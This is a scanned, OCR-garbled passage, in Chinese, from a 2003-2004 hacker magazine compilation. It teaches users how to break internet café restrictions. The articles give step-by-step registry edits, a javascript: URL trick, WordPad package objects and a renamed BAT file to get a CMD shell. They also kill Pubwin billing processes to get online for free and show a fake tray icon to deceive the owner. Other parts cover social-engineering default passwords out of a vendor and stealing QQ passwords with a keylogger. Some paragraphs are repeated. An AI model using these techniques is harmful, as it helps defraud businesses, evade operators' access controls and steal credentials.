“旁门左道突破网络妙管家”的作者在文章结束时也提到过，一般我们都是让别人来运行（不要误会，我可是好孩子，不会拿这个去害人的）。呵呵！现在我们是要自己做木马让自己中，相信这是始例。至于怎样做网页木马，这里我就不多介绍了，你可参考前几期的《X档案》，只要将其中的木马程序改为下载工具就行了。


#### 4. 网页制作软件

很多网吧为了方便顾客，一般都将常用软件装齐全了（当然不会有黑客软件了），这时我们可以利用网页制作软件中的FTP客户端来从FTP服务器上下载工具。首先去申请一个FTP空间，这里推荐www.miss8.com，里面有很多免费空间。然后选择“开始→程序→网页类全集”（图9）。


这里我选择的是Dreamweaver。打开它，选择“站点→定义站点”出现图10所示的画面，然后选择种类中的“WEB服务器信息”，在“服务器访问”中选择“FTP”，然后在“FTP HOST”中输入FTP服务器IP或域名，在“登陆”及“密码”中输入帐号和密码，“主机目录”可以不填。

点击“确定”后，会出现图11所示的提示，点击“建立”，然后在站点中选择打开刚才建立的站点（图12），这时我们就可以连接主机自由下载了。


#### 5. 社会工程学

如果前面的方法都不行，那就用这个吧！例如：将老板叫来让他下载个东东，这时是我们展示间谍技术的时候了，偷偷记下他输入的密码。还有，有些网吧是专门的安全公司弄的，而那些网管都是菜鸟，或者粗心，没有将默认密码改掉。默认密码通常可以到它的主页上去找（图13是我所在网吧的专门下载工具），或者可以直接打电话给安全公司：“你好，我是XXX网吧的老板，我这个网吧安装的XXX下载工具的密码是什么啊！我不记得了。”然后他就会将安装时的默认密码告诉你。嘿嘿！我们就可以自由下载了。


如果以上方法都不行，就去威胁网管吧！让他交出密码（开个玩笑啦）！

（本文提及的PcShare光盘有收录）

## 在网吧玩“塑料”

magic dog

大家好，我魔力狗又回来了。看了2004年10期的“网吧下载权限随你拿”的朋友，相信在网吧都试过了吧！不过，魔力狗首先向大家道歉，有两个地方需要更正：一个是10期中给大家的那个网址已不能再用（即http://magicdog.freewebpage.org/，出了点问题，事后我又重新注册但总是显示错误），新的地址是http://hlwy.512j.com/dog；另一个是将一个注册表的路径写错了（11页处右下脚），原文路径是“HCU\Software\Microsoft\Policies\Microsoft\internet explorer\control panel”，正确路径应该是“HCU\Software\Policies\Microsoft\internet explorer\control panel”，即原文多了一个“Microsoft”。好了，我保证下次一定会仔细审稿的（黑裤子：看来得扣扣狗狗一定的稿费，不然还会有人步其后尘）。好，下面我们切入正题！

### 限制进入磁盘的方式

网管限制我们进入电脑磁盘的形式一般有以下两种情况：

1. 桌面上没有“我的电脑”图标；
2. 双击打开“我的电脑”后找不到一个盘符；若有盘符，想双击进入时却弹出对话框（图1）。


黑客X档案2003 2004年合订本(下卷)

87

## netcafe

## 三、解除限制

### 1. 恢复我的电脑

一般产生这种情况的原因可能是网管把“我的电脑”图标从桌面删除了，或者当前所处的是虚拟桌面。所以你可以这么做：在桌面空白处单击鼠标右键，选择“属性”，弹出对话框，选择“桌面”，然后单击“自定义桌面(D)…”，又会弹出一个图2所示的对话框。

看见没有？“我的电脑”和“网上邻居”等都没有打上“√”，还等什么，打上“√”后单击“确定”保存退出，桌面上“我的电脑”图标又回来了。


但在网吧鼠标右键有可能被禁止，这时我们可通过注册表将其改回来。打开注册表，来到“HKEY\software\Microsoft\windows\Currentversion\Policies\Explorer”下，找到二进制值“NoViewContextMenu”，删除它。关闭注册表，然后重新启动PC，右键便可以使用了。

如果是虚拟桌面的话，你可以使用Windows自带的快捷键“Win+d”，具体做法是先按住键盘右下角的“WIN”键不放，然后再按字母“D”键。看看，真正的桌面是不是又回来了。

当然，有时当你按下上面我所说的快捷键后可能会出现一个连“任务栏”都没有的空桌面，别着急，那是它对系统里的一个文件进行了修改，该文件位于C:\Windows\Explorer.exe，不管是在Win98还是Win2K/Win XP中，当你调出任务管理器时（什么？你不知道怎么调？Win98里是按Ctrl+Alt+del键；Win2K是按Ctrl+Shift+Esc键；WinXP是按Ctrl+Alt+del或Ctrl+Shift+Esc键），就会看到Explorer.exe这个进程（要注意的是，在Win98虽然需要专门的进程查看工具才能看到进程，但当你调出任务管理器时，还是会显示Explorer的）。你可以试着结束它，一旦KILL掉它后，机器就会像死机一样，这下又得重启系统。这时，你可以看看机器里有没有系统备份文件，若有的话，按F8键进入纯DOS（若发现不能进入纯DOS，那是他们屏蔽了热键，关于热键的屏蔽，等会儿我会告诉大家的）。这里我们假设备份文件在D盘，把当前路径用CD命令切换到D盘后，输入如下命令：

```
extract /y /e WIN98\WIN98_45.cab C:\windows\explorer.exe
```

顺便说一下，在XP中要解压安装文件用到的命令不再是“extract”，而是“expand”，关于它的具体使用方法，你可在命令提示符下输入expand/?来查看。

OK！这样我们就替换掉原来那个explorer.exe文件了，接着输入Win命令进入Windows，再进行开始我所说的步骤。

你也可以这样，打开IE浏览器，在工具栏上依次选择“查看”→“浏览器栏”→“文件夹”，在左边随即弹出的窗口里会看到图3所示的内容。


好，现在你就可双击“俺的窝”（即“我的电脑”）进入磁盘了，如图4。

但有可能不能打开文件夹，这是为什么呢？原来网管做了以下“恶事”：


打开任何一个文件夹，在工具栏上依次选择“查看”→“工具栏”，将右边菜单的打勾选项全部取消（如：“标准按钮”、“地址栏”……），如图5。然后打开IE浏览器，在工具栏上依次选择“查看”→“工具栏”，将右边菜单的打勾选项除了“标准按钮”、“地址栏”外的其他选项全部取消。然后进入纯DOS，把C:\Windows\System下的Browse1c.dll文件改名或删除（在Windows下不能对其进行改名或删除等操作）。OK！大功告成！我说的是网管哦！


那我们该如何对付呢？可以找到那个被改名的文件，在纯DOS下把它改为正确的名字，或者从机器上已经备份了的文件里将其提取出来，然后拷到C:\Windows\System下，再一步步依照上面我所说的方法恢复回去。

我们也可以这样（这里我也顺便回答网上一些朋友说看了“网吧下载权限你拿”后，下载了东西，可桌面上没有“我的电脑”，且用“WIN+D”快捷键也不行的解决方法），还是打开IE浏览器，依次点击“文件”→“打开”，单击弹出对话框中的“浏览(R)…”，为了显示所有文件，我们把“文件类型”选为“所有文件”，如图6。

电脑爱好者2003 2004年合订本(下册)


我们是不是又进来了？这里假设我们要打开图6中的“坏蛋是怎样炼成的”文件，选中后单击右键，选择“打开”，是不是成功运行了程序？

另外，我们还可借助第三方软件来进入磁盘，比如我们的邮箱，找到添加“附件”的地方，这时程序就要你在本机选择要发送的附件，不就进入磁盘了吗！接下来的操作和上面我说的差不多。

## 二、解决方法

### （1）通过注册表解决

首先可以肯定的告诉大家那是注册表搞的鬼！

打开注册表到“HICU\Software\Microsoft\windows\CurrentVersion\Policies\Explorer”，找到DWORD值“NoDrives”（应该有几个，随隐藏的分区个数而定），全部删除，保存退出。打开“我的电脑”，瞧！各个盘是不是又回来了？

> 小技巧：
> 若隐藏C：，则新建一个DWORD值，将其值设置为“4”；如果要隐藏D：，则新建DWORD值“NoDrives”，设置它的值为“8”；隐藏E：，则把值改成“10”即可。隐藏A盘把值设置为“1”。大家可以自己试试改变不同的值来隐藏不同的驱动器，在这里就不再一一叙述了。另外，由于在相同路径下注册表不允许相同的值名称出现，所以你若需要隐藏2个以上的驱动器，就将值设置为“FFFFFFFF”（8个“F”），即将所有的盘都隐藏。

### （2）通过组策略解决


如果你的系统是XP的话，也可以用系统“组策略”来解除禁止。

在“开始”菜单的“运行”中输入“gpedit.msc”并回车，打开组策略。来到“用户配置→管理模板→Windows组件→Windows资源管理器”（图7），双击“隐藏‘我的电脑’中的这些指定的驱动器”，弹出图8所示的对话框，选择“已禁用（D）”，再单击“应用（A）”→“确定”，退出组策略。


### （3）其他“旁门左道”方法

除了这个方法，其他“旁门左道”的“歪招”也有很多。比如你可以在“MS-DOS”、纯DOS或“命令提示符”下访问磁盘，当然前提是你起码得熟悉一点DOS的基本操作。但有时也许在提到的这些地方也不能成功，可按照以下方法解决：找到注册表分支“HICU\Software\Microsoft\Windows\CurrentVersion\Policies\WinOldApp”，然后在该分支右窗口中会找到DWORD值“Disabled”，将其删除即可。

你也可以打开IE浏览器，在地址栏上输入“c:\”等进入磁盘。如果当你在IE地址栏输入“c:\”时，系统提示“不允许访问资源‘c:\’时：还有别的办法，下面就给大家说一下。

要知道解决方法一般就得知道造成这种情况的原因。打开注册表编辑器，来到这里：HCU\Software\Microsoft\windows\CurrentVersion\Policies\Explorer，你至少会在右边的窗口发现图9所示的两个双字节键值（DWORD值）。


看见没？就是“nosun”和“norun”这两个DWORD值。说句实话，我和注册表接触一年多了，发现有时注册表里的键值也会相互产生冲突和相互依存。就拿这两个值来说，起关键作用的是“nosun”这个DWORD值，如果不建立“norun”是不会起作用的。“norun”值的作用相信大家已经很熟悉了，即不在“开始”菜

## netcafe

单单中显示出“运行”。

而有时我们按照有关书籍的介绍建立了正确的键和键值，但却没有起到书上所说的效果，一方面可能要等一会儿，让系统“习惯”，或要“注销”一下，或者必须重启动系统甚至要关闭计算机等一会儿再开机；而另一方面你不得不考虑相同目录下的键值是否有冲突或相互限制，这时你不得不小心地适当改一下同目录下的另外一些键。

### （4）执行脚本

当然，如果网吧的安全设置都这样了，要轻易打开注册表编辑器是不可能的，这里我再给大家介绍一个更简单可行的方法：打开IE浏览器，最好是先登录一个网站，不要是空白的网页（about：blank），然后在地址栏上重新输入如下脚本：

```
javascript:document.write("<p><a href=file:///C:/ >magic dog</a></p>")
```

回车后出现图10所示的页面。


点击图10中的“magic dog”便可进入“C:\”盘了，懂一点html的朋友应该可以明白这是个java脚本，意思是在页面出现“magic dog”字符并链接到（href）本地的C盘，同理，你可把脚本中的“c”换成其他盘符，因为IE地址栏是可以执行脚本的，利用这一点你还可以干很多事哦！

### （5）对弹出对话框的处理

弹出那个对话框是因为网管修改了Registry（即注册表），首先我们来到这里：HKEY\Software\Microsoft\windows\CurrentVersion\Policies\Explorer，注意老规矩：没有的项自己新建就可以了。

在这里首先建一个双字节值：noviewondrive，而随着值的变化，所禁止的磁盘驱动器也在变化，以下是我自己试了N次而得来的数据（注：“[]”里是键值）：

| 数值 | 作用 |
| --- | --- |
| 00000000 | 不禁止任何驱动器 |
| 00000001 | 禁止A驱动器 |
| 00000003 | 禁止A和B驱动器 |
| 00000004 | 禁止C驱动器 |
| 00000007 | 禁止A、B和C驱动器 |
| 00000008 | 禁止D驱动器 |
| 0000000F | 禁止A、B、C和D驱动器 |
| 00000010 | 禁止E驱动器 |
| 03FFFFFF | 禁止所有驱动器 |

而我们要做的是把这个值删除掉（如果要通过编写注册表文件来删除，可把图11中的“dword:0000000e”换成“-”（减号），即“noviewondrive”=-”）。需要特别注意的是，不一定你删除了这个键就可以立即进入磁盘，我前面已经说了，可能要等一会儿系统的限制才会解除。

你也可以通过组策略来修改。打开组策略，来到“用户配置”→“管理模板”→“Windows组件”→“Windows资源管理器”，在右边的窗口中双击“防止从‘我的电脑’访问驱动器”，马上弹出图12所示的窗口。

看到没？系统已经禁止了所有驱动器，我们只需选择“已禁用”就可解除限制。

### （6）亲身体验


我曾经在一家网吧上网时，发现其收费系统为“美萍”（系统为：Win2K+SP4），当我试图打开Windows任务管理器时，一下子便被好心的“美萍”给关闭了。在运行中输入“regedit”和“regedit32”都不行，注册表被禁止了（补课时间：regedit32是继Win98后Win2K新增的一个注册表工具，它比Regedit多一个“安全”选项，可以配置用户权限，这样就增加了系统的安全性。而在XP中，已经把二者融合在了一起，即“RegEdit”）。这时我便想起了组策略！还好这个“美萍”没有屏蔽，当我打开相应的对话框正准备修改时，对话框却突然被关闭了，无奈之下我来到原来这几个选项都是有快捷键的，激动ing（图13）！“未配置”、“已启用”、“已禁用”和“应用”的快捷键分别是“C”、“B”、“D”、“A”，即当你打开此对话框时，马上在键盘上依次按D（禁用此功能）、A（应用，设置后要生效得“应用”才行）键。同理，你也可用这个方法来解决网吧对磁盘的限制。


由于在测试时要不断重复修改注册表，所以你可以写个注册表文件来导入，这样比每次都打开注册表然后一步步的展项来修改要快。当然，系统若是Win2K以上，由于注册表已经有了记忆的功能，所以也不是十分麻烦。比如我是这样建立注册表文件的（图11），顺便请大家注意下格式，注册表文件很讲究格式的。

### （7）利用第三方软件

这里再给大家说说利用第三方软件来达到破解网吧的目的，这种方法并不适合每个人，我只简单说说。我利用的是金山毒霸6，众所周知它是款不错的杀毒软件，我们可以这样来利用它：

①解锁注册表

进入金山毒霸6的安装目录，找到KWatchUI.exe文件，随便改个名字，如1.exe。然后把注册表编辑器RegEdit.exe拷贝到金山毒霸6的安装目录，并改名为KWatchUI.exe。运行金山毒霸6，在程序主界面依次选择“工具”→“金山毒霸病毒防火墙”。呵呵！看看吧，不要以为自己的眼花了，不错，现在运行的的确是注册表编辑器。你也可依葫芦画瓢，利用其他第三方软件来打开注册表。需要注意的是：替换掉的文件必须是“*.exe”形式的，即扩展名必须是“exe”；你必须知道被替换掉的文件在第三方软件中的角色。

②进入磁盘


运行金山毒霸 6，依次点击“帮助”->“联机帮助”，弹出一个窗口，右击该窗口的标题栏，在弹出菜单中选择“跳至 URL (J)...”，接着弹出窗口中上一栏显示的是当前 URL，而下一栏则是选择你要跳转到的 URL，你可这样输入：file://c:/，确定后便可进入 C 盘了。

## 三、关于 Windows 热键的屏蔽与破解

最后，我给大家讲一下关于 Windows 热键的屏蔽与破解。一般在破解网吧时，我们要用到的热键如下：

- F8：在开机后一直按它将其进入选择菜单，这里可选择进入纯 DOS 还是安全模式等。
- Shift+F5：在开机后一直按 Shift+F5 将直接进入纯 DOS。
- F5：在开机后一直按 F5 将直接进入安全模式。
- Win+D：显示桌面。
- Win+R：弹出“运行”菜单（但若用注册表隐藏了“运行”菜单，这个热键就失效了）。
- Win+E：打开资源管理器。
- Win+F：运行查找功能。


我先说后面这几个 Win+*的问题，网吧主要是屏蔽了“Win”键，但不是修改的注册表而是用专门的程序来禁止，比如“电脑卫士”，所以我们唯一能做的就是不要它随系统一起启动。可以通过注册表的 run 键或 msconfig 来实现，注册表具体的位置是“HKCU\Software\Microsoft\Windows\Run”。或者在“开始”->“运行”中输入“msconfig”，回车后将打开系统实用配置程序，点击“启动项”，就可看到随系统启动的东东了，如图 14。

值得一提的是，我们还可利用它干很多事情，因为“system.ini”、“win.ini”、“boot.ini”、“服务”这几个选项在 Windows 中都是举足轻重的角色！

现在我来说一下关于屏蔽 F8、F5、Shift+F5 的解决办法。在系统盘（比如 C:\下）你可找到 MSDOS.SYS 这个文件（注：由于它是系统文件，所以是隐藏的），用记事本把它打开，一般在最后你会发现这句话：“bootkey=0（0 表示屏蔽，1 表示取消）”，这句话是禁止热键，把它删除掉，就可再重新使用热键了。

## 四、关于上传 Web 页的问题

顺便我说下在上传 web 页时遇到的问题，供大家参考！开始我还是和“网吧下载权限随你拿”中叙述的一样在本地做好一切，但上传到一个免费空间时，却在把“网页”保存为“*.exe”时出错，保存后的可执行文件不能用，后来我仔细比较了它和本地的“网页”，发现二者的乱码不一样，那么问题就出在空间上。后来我又把空间上的“网页”通过 FTP 软件 GET 下来，打开一看，乱码还是和本地的不一样，那么肯定是上传时出了问题！我想了几天，最后终于成功了，我是这样做的：先把要用的可执行文件上传，然后再改扩展名，即将“*.exe”改为“*.htm”或“*.html”。另外，若在保存网页时发现在 IE 浏览器中点击“文件”菜单时没有“另存为...”，可到注册表的“HCU\Software\Policies\Microsoft\internet explorer\Restrictions”下，将 DWORD 值“NoBrowserSaveAs”删除。其实，这里所有的键值都可删除，因为选项“Restrictions”都是人为增加的。


## Pubwin4 之网吧破解

Lee

毕业后回到了江西，有空偶尔也会像原来一样去网吧上网，但发觉这边的网吧几乎都用的是斯普林的名智无盘网络技术，客户端都是用的 Win98 操作系统。笔者来到一个配置不错的网吧，发现网吧管理软件用的是 Pubwin4 和方竹网管。既限制下载，又禁用鼠标右键、隐藏硬盘，连文件保存对话框中的保存文件类型组合框、保存文件按钮都被弄灰了，比起原来在大学旁装硬盘还卡卡的网吧麻烦了许多。而我向来是个下载狂，这让我很不爽，于是经过一番寻觅觅觅后便有了以下心得。

### 一、破解下载限制

首先，系统禁用了鼠标右键，新建快捷方式等操作就不起作用了。另外，在桌面上的一些快捷方式上按“Shift+F10”，右键菜单也出不来。按“Alt+回车”，弹出选项框中的按钮全部变灰。到这里，心想要是能上网下载一个“Windows 按钮突破专家”就可以搞定了，可下载也被禁止了，一下载东西就会提示“当前安全设置不允许下载”的提示框。肯定是注册表搞的鬼！“程序”菜单中只保留了很少的应用程序项。附件里只有“计算器”、“写字板”、“IPConfig”等几个快捷方式，连“记事本”都被删除了。等等！“写字板”？好东西啊！要不写一个解禁注册表的.reg 文件？随即便放弃了这个想法！保存文件对话框里的“保存”按钮都是灰的，写了也有不了！唉……不过灵光一闪！记得以前看过一篇关于用写字板写病毒的文章，既然病毒都可以进出来，那么运行一个程序也就不成问题了。

首先，系统禁用了鼠标右键，新建快捷方式等操作就不起作用了。另外，在桌面上的一些快捷方式上按“Shift+F10”，右键菜单也出不来。按“Alt+回车”，弹出选项框中的按钮全部变灰。到这里，心想要是能上网下载一个“Windows 按钮突破专家”就可以搞定了，可下载也被禁止了，一下载东西就会提示“当前安全设置不允许下载”的提示框。肯定是注册表搞的鬼！“程序”菜单中只保留了很少的应用程序项。附件里只有“计算器”、“写字板”、“IPConfig”等几个快捷方式，连“记事本”都被删除了。等等！“写字板”？好东西啊！要不写一个解禁注册表的.reg 文件？随即便放弃了这个想法！保存文件对话框里的“保存”按钮都是灰的，写了也有不了！唉……不过灵光一闪！记得以前看过一篇关于用写字板写病毒的文章，既然病毒都可以进出来，那么运行一个程序也就不成问题了。

于是运行写字板，在“插入”菜单中选择“对象...”菜单，弹出“插入对象”对话框，在“对象类型”列表框中选择“包”，出

## netcafe

图1。
然后在弹出的对象包装程序中选择“编辑”菜单下的“命令行”。如图2、图3。


图3
嘿嘿，猜到了？可以通过命令行的方式来运行程序了，在命令行对话框中输入notepad.exe C:\reg.reg，确定后关掉“对象包装程序”，此时会提示你“更新文档”，选择“是”。然后在插入的包对象上点击鼠标右键，选择“包对象”→“激活内容”，如图4。


记事本弹出来了吧？这样就避免了调出记事本写解注册表脚本后保存时要通过保存文件对话框进行操作，而本人估计斯普林的这套无盘系统H00K了通用对话框的API调用，使得诸如“打开”、“保存”等按钮的失效。但现在我们只需写完解禁脚本后直接点“保存”，并不会弹出保存对话框。写好运行reg.reg，这样注册表就解禁了，我们可疯狂修改/删除一系列限制了，比如解除资源管理器中右键的禁用之类，在此就不多说，大家可参阅前几期的《X档案》。

操作到这里，发现下载限制还没有解除？既然提示“当前安全设置不允许下载”，那我们就来搞定它！“Internet选项”已经被隐藏，先把它揪出来。
重复上面的步骤，然后在“对象包装程序”中的命令行对话框中输入inetcpl.cpl，提示找不到？多半是把inetcpl.cpl文件改名了。由于斯普林的无盘网络把系统文件夹及其子文件夹都隐藏了，而且全加上了只读属性，我们还是通过dir命令看看改成什么了。在命令行对话框中输入dir H:\WXP\System\inetcpl.*（自己摸索，不知道系统目录在H：\WXP\System），显示结果如图5。


看到了吗？被改成了inetcpl.cpl(即把字母“I”改成了数字“1”，这样很容易混淆)和inetcpl.cpp，想直接用ren命令修改它，好象ren.exe被删除了。那就用copy命令啊！在命令行对话框中输入copy H：\WXP\System\inetcpl.cpp C:\inetcpl.cpl，搞定！打开C盘双击inetcpl.cpl，便打开了Internet选项设置框(图6)。
调好安全设置，就可弹出下载对话框了，但一看又郁闷了（图7），“确定”按钮是灰色的，都到这一步了，还差一点。在一次偶然的机会中，我发现这个无盘系统并不把QQ2004网络硬盘中下载文件保存对话框中的“保存”按钮变灰。于是在我另一个无限制的网吧里把“Windows按钮突破专家”传上去，再到这个网吧下载下来，终于一切搞定！


下载限制突破了，以后东东随便下，哈哈！把突破专家存到服务器的硬盘里以后备用，至此收工！另，如果网吧没有写字板，但是有bat文件，也是一样的。
本文只限讨论技术，非法的事情还是不能干的，上网下载MP3什么的能派上用场！

## 破解网吧封锁WMP及下载

雪茄烟

某日和朋友到本地小城一家新开的网吧玩，坏境不错！可一开机就晕了，桌面上只有几个图标，QQ、泡泡、传奇之类的，连FlashGet都没有。在IE的图标上点击右键，一看更晕了，右键菜单只有“打开”和“创建快捷方式”，竟没有“属性”！上网到百度下载几个MP3，竟然出现不能下载（图1）。点击IE菜单“工具”下的“Internet选项…”竟然是一闪而逝。


所有希望都没有了！只好打开“我的音乐”文件夹听音乐了。没有想到的是，在用Windows Media Player 10.0听一首MP3时竟让我找到了解决上面问题的方法，下面就给人家说一下。
在播放器的可视化效果上右击，会出现一个菜单，单击“选项(Options)”打开选项（图2），选择其中的“隐私（Privacy）”选项卡，单击“Cookies…”按钮。
这时会出现一个警告（图3），不管它，直接点“确定”。
看，出现了什么？熟悉吧（图4）！对，就是“Internet属性”选项。
选择“安全”选项卡，然后单击“自定义级别…”按钮，会出现“安全设置”对话框，找到“下载”单选项（图5），查看是否“禁用”，如果被禁用，我们就给他“启用”吧！最后点“确定”！


## 追捕 99 公共网吧上网的破解之菜鸟篇

口，达到真正免费上网的目的。即在“智能ABC”下依次输入“V+↑+Del+Enter”，在出现的对话框中点击“确定”，当前的进程就会因为非法操作而结束，图1是我在Word下所做的实验。要注意的是，此方法对美萍的最新版本无效！


但是，如果网吧使用的是Pubwin4.0，就有点麻烦了（而不幸的是，全国大多数省、市的网吧都是使用的Pubwin4.0），由于该软件使用了双进程守护技术，如果只是简单的结束Pubwin4.0是没用的。那么什么是双进程守护呢？简单的说，就是该软件可以启动两个进程，一个主进程，一个守护进程，无论哪个进程被非法Kill，另一个进程就会重新启动它（跟某些病毒、木马所使用的技术有些类似）。不过幸运的是，笔者已经找到一款可一次杀死多个进程的软件——杀毒助手。


该软件的本来是为了辅助杀毒软件杀死拥有多个进程守护的病毒或木马程序，在这里我们就把它变成刺穿网管软件的利器。

打开“杀毒助手”软件，我们可以看到当前计算机上运行的所有进程（图2）。下面我们找到关于Pubwin4.0的两个进程（PUBWIN.EXE和RECLOCK.EXE），在“映像名称”前的复选框中打上勾，然后选择“进程”菜单下的“强行关闭进程[多个]”命令（或者在所选的进程上点击鼠标右键，如图3、图4）。

这样，Pubwin的两个进程都会被强行关闭，而这时当我们的会员时间用完，也不会自动锁定退出了，免费上网的目的便达到了。

怎么样？方法够简单吧！
在文章结束时，我们来看看“杀毒助手”的其他功能：
1. 可以查看每个进程的主要文件与其所使用的动态链接库（DLL文件），只要点击进程前面的加号即可（图5）。


再用百度下载MP3试试，怎么样？不会出现那个“安全警报”了吧！
虽然这些操作看起来有些繁琐，但只要你 对这些设置很熟悉的话，只要一分钟就能搞定哟！

看了本文，相信只要你拥有基本的电脑常识和“Hacker”技术（比如破解网吧的下载管理，以便于我们下载工具），就可轻松实现让“免费”进入网吧！
首先，我们来看看如今免费上网有哪些方法？1. 入侵网吧的服务器。此方法技术水平太高，像我等小菜是可望而不可及呀；2. 在一个风高月圆夜，手持铁棍……呵呵，小心被警察叔叔请去喝菜哦 *_*；3. 使用杀进程软件杀死网吧管理软件的进程，这样就可以在会员时间用完的情况下继续上网。

既然第一种方法难以实现，第二种方法又太过于BT，那么我们就在第三种方法上做做手脚。
如果你所在网吧使用的管理软件是美萍、万象（真落后耶！）的话，我们就在会员时间用完之前，使用“进程杀手”或“Windows优化大师”等软件杀死相应管理软件的进程。当然，也可利用“智能ABC输入法”的BUG破解掉美萍或万象的登陆窗口，达到真正免费上网的目的。即在“智

在“智能ABC”下依次输入“V+↑+Del+Enter”，在出现的对话框中点击“确定”，当前的进程就会因为非法操作而结束，图1是我在Word下所做的实验。要注意的是，此方法对美萍的最新版本无效！

## netcafe


2.可以删除系统服务。选择“服务项”菜单下的“删除系统服务”命令（图6）。

可以删除系统的启动项。选择“启动项”菜单下的“删除系统启动项”命令（图7）。


最后，我们还需要做些有关细节的工作，比如当我们杀死Pubwin进程时，在任务栏上Pubwin的托盘图标也会随之消失（美萍和万象也是一样）。这样，被网吧老板看到的话可就说不清了，因此我们要制作一个可以伪装的程序来模拟Pubwin。当然，它不需要实现Pubwin对应的功能，只要达到伪装的目的即可。我写了一个简单的伪装程序（Delphi编写，附源程序和编译后的可执行程序，光盘里面有收录），大家可以参考一下，有什么不明白的地方请到X论坛与我联系（http://www.hackerxfiles.net/bbs/）。

（本文涉及的杀毒助手及作者编写的伪装程序光盘有收录）

## 突破网吧限制打开CMD窗口

phantom517

研究《黑客X档案》有半年了，每当出现新的溢出漏洞，总想亲手溢出几台主机来，看着那一个个黑漆漆的CMD窗口，心里充满着胜利的快感。
但对于那些刚发布的漏洞，大多是使用命令行下的溢出工具去溢出，GUI界面的一般没有或要到漏洞发布很久后才会出现，这对于我们这些没有个人电脑而在网吧上网的黑迷来说，是件很郁闷的事，因为在网吧中直接打开CMD窗口是不可能的事，而破解管理软件又很费时、费神（技术太烂，碰到PUBWIN等航母级的软件手工破解肯定死翘翘）。在这里我向大家介绍一种在不破解管理软件的条件下打开CMD的方法。

首先打开任一网页，选择“查看→源文件”，在源文件窗口选择“文件→新建”，在文本中输入CMD（在Win98中输入COMMAND），然后另存为PHANTOM.TXT（假设文件的存放路径为D：\phantom.txt），如图1。
然后到任意网站下载一个RAR文件（体积越小越好，省时呀！），记着不能勾选“下载完软件后关闭此窗口”，否则会全功尽弃，存放路径最好也在D盘。下载后打开软件，选择“文件夹…”，返回到上级目录。好！现在你看到那个PHANTOM.TXT文件了吧！如图2。


图 2

现在到了关键时刻，因为 RAR 中显示的文件都是带后缀名的。我们就是要充分利用这个后缀名，大家都知道批处理文件吧，它的后缀名为 BAT。

下面我们将 PHANTOM.TXT 改名为 PHANTOM.BAT，然后双击它。看！可爱的 CMD 窗口出现了，它不同于在批处理文件中写其他命令。一旦命令执行完毕，窗口就消失。它是固定的。

好了，现在你就可在 CMD 中进行溢出攻击了，当然也可做点别的，比如加管理员（权限够的话），破解还原精灵等。

到目前为止，我还没发现哪个管理软件能防止这种方式打开 CMD 的。


什么是远程溢出（Remote exploit）?

什么是本地溢出（Local exploit）?

远程溢出（Remote exploit）通常指的是我们利用要攻击的远程电脑提供的某个服务，从本地电脑上向该服务提供一些特定的数据，来触发一个缓冲区溢出，以达到我们特定的目标。通常是在对方的某个端口上绑定一个 shell，或者是反向连接。连接到攻击者的电脑上，来让攻击者在本地得到远程主机的一个 shell，也可以直接在对方的系统中添加一个后门帐号或是直接下载一个木马程序执行等。这种攻击就是远程溢出（Remote exploit）攻击。

而本地溢出（Local exploit）则指的是我们在可以物理接触电脑，但是权限却是受到限制的情况下，向系统的某个服务提供特定的数据，触发一个缓冲区溢出，并得到系统最高权限。有时当我们远程溢出攻击成功，但是得到的 shell 却是只有一个普通的权限时，也可以再使用本地溢出（Local exploit）攻击，提升自己的权限。

什么是嗅探（Sniffer）?

计算机网络是共享通讯通道的，支持每对通讯计算机独占通道的交换机/集线器仍然过于昂贵，共享意味着计算机能够接收到发送给其他计算机的信息，捕获在网络中传输的数据信息就称为嗅探（Sniffer）。

什么是弱口令？

弱口令指的是密码与用户名相同、密码为空这样的用户名与密码组合，也包括那些强度不够、容易被猜解的组合，例如用户名为 Administrator，密码也为 Administrator；用户名为 Administrator，密码为空；用户名为 Administrator，密码为 1234、12345、123456、abcd 等极易猜测出来的密码，这些都属于弱口令。

什么是 3389 终端服务？

Terminal Service，终端服务，Windows NT 系统中最先开始使用的一种终端服务，在 Win2000 的 professional 版本中并不集成终端服务，只可以安装终端服务的客户端连接程序。在 Win2000 的 server 版及高级服务器版本中都集成了这个终端服务。我们可以使用终端服务的客户端连接程序来连接开放终端服务的主机，就可以像操作本机一样来操作远程主机了，非常的方便，在 Windows XP 系统中叫做“远程桌面”。

什么是 IP 地址？

为了使 Internet 上的众多电脑主机在通信时能够相互识别，Internet 上的每一台主机都分配有一个唯一的 32 位地址，该地址称为 IP 地址，也称作网际地址。IP 地址由 4 个数值部分组成，每个数值部分可取值 0～255，各数值部分之间用一个点号“.”分开（如：202.103.8.46）。事实上，每个 IP 地址都是由网络号和主机号两部分组成的。网络号表明主机所联接的网络，主机号标识了该网络上特定的那台主机。如：上例中 202.103 是网络号，8.46 是主机号。

什么是域名（DomainName）?

IP 地址是以数字来代表的主机地址，比较难记。为了使用和记忆方便，也为了便于网络地址的分层管理和分配，Internet 在 1984 年采用了域名管理系统（DomainNameSystem），入网的每台主机都具有类似于下列结构的域名：“主机号.机构名.网络名.最高层域名”。域名用一组简短的英文表达，比用数字表达的 IP 地址容易记忆。例如：北京电报局的一台与 INTERNET 联网的电脑主机的 IP 地址是 202.96.0.98，域名为 public.bta.net.cn。加入 Internet 的各级网络依照域名管理系统的命名规则对本网内的主机命名和分配网内主机号，并负责完成通信时域名到 IP 地址的转换。对使用者来说，我们一般不需要使用 IP 地址，而直接使用域名，Internet 上的服务系统自动地转为 IP 类型的地址。从技术上讲，域名只是 Internet 上用于解决地址对应问题的一种方法，Internet 上的主机可以不要域名，但是绝不能没有 IP 地址。一个 IP 地址可以对应多个域名，而一个域名只能对应一个唯一的 IP 地址。

什么是 HomePage（主页）？

HomePage 是一种用超文本标记语言（描述性语言），由它将信息组织好，再经过相应的解释器或浏览器翻译出的包括文字、图象、声音、动画等多种信息组织方式。

什么是 HTTP?

Hypertest Transfer Protocol，HTTP，超文本传输协议。这是用来在 WEB 服务器和浏览 WEB 的客户端之间传输 WEB 页面的一种协议。只要是网站，都会提供这种 HTTP 服务的。

黑客X档案 2003 2004年合订本下卷1

6


# 我的QQ被盗之后

前几天一个喜欢做网页的同学找到我，说他的QQ号被盗，让我帮忙找回来。有经验的朋友都知道：盗QQ简单，把被盗的QQ找回来可就难了（申请了密码保护的QQ除外）。如果你在网吧里安装一个带邮件发送功能的后台记录软件，准能在你的邮箱收到不少QQ号码。

被盗QQ难找回的原因如下：

1. 如果找不出是谁用了什么方法盗了你的QQ，根本无从下手；
2. 有人喜盗QQ却不喜用，闷在那里一个月也不动，很难找到他的IP；
3. 如果对方抢先申请了密码保护，即便你找回QQ也没有意义。

